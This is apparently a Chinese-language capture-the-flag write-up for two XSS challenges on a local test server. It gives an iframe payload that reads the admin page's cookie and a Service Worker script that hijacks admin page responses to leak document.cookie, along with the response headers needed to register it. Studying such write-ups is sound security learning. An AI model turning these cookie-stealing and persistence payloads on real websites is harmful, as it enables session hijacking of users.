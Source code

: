 ## 第三新 XSS

### 巡猎

很基础的 XSS 绕过路径，parent 可以利用内联读取子路径下的 cookie，连响应头都不需要特殊设置：

```html
<head>
</head>
<body>
<script>
    iframe = document.createElement('iframe');
    iframe.src = 'http://127.0.0.1:5000/admin';
    iframe.onload = function() {
        document.title = iframe.contentWindow.document.cookie;
    };
    document.body.appendChild(iframe);
</script>
</body>
```

### 记忆

看到源代码时有些懵，先访问攻击页面，关闭后再访问个人页面也会被攻击？脑海中 JSONP、onbeforeunload 事件一闪而过，然并卵……难道有什么 GoogleDriver 的 exp？……当然这里也没有。最后还是看了提示才知道要用 Service Worker

Service Worker 相当于服务器和客户端的一个中间人，能提供持久化控制，但有`https`和`scope`的限制，且生命周期是 24小时

代码参考下面两篇文章：

- [Xss Via Service Worker-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/2069767)

- [XSS持久化：Service Worker ~ Misaki's Blog (misakikata.github.io)](https://misakikata.github.io/2021/06/XSS%E6%8C%81%E4%B9%85%E5%8C%96%EF%BC%9AService-Worker/)

先注册一个 service worker

文件名：sw，响应头：

```json
{"Content-Type": "application/javascript","Service-Worker-Allowed":"/"}
```

内容：

```javascript
this.addEventListener('install', function (event) {
  console.log('Service Worker install');
});
this.addEventListener('fetch', function (event) {
    var url = event.request.clone();
    console.log('url: ', url);
    var body = '<script>setTimeout(function() { document.title = document.cookie }, 600);</script>';
    var init = {headers: {"Content-Type": "text/html"}};
    if (url.url === 'https://127.0.0.1:5000/admin/') {
        var res = new Response(body, init);
        event.respondWith(res.clone());
    }
});
```
